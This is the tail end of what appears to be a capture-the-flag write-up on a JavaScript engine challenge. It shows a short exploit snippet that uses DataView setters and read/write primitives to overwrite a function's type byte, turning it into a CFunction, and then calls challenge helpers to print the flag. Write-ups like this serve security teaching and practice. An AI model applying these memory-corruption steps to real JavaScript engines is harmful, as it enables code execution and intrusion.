 ```js
// give victim dataview functions
victim.su32 = DataView.prototype.setUint32;
victim.su8 = DataView.prototype.setUint8;

write32(Challenge.write(), read32(Challenge.read()));

// overwrite the type of bad_fn to make it a CFunction
victim.su8(0x180, 5);

// call the code to fetch the flag
execute(Challenge.exec());

// get the flag!
var flag = Challenge.getFlag();
print(flag);
```

Thanks for reading!


